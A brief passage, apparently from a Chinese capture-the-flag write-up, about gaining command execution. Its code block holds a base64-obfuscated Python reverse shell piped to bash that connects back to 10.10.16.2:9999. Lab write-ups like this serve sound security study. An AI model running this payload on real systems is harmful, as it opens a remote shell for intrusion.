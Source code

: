 经过测试，可以使用常用的 bash 符号

![img](img/image_20240336-103626.png)

尝试直接反弹 shell

```javascript
cmd = 'echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjIiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc= | base64 -d | bash'
```

![img](img/image_20240337-103727.png)
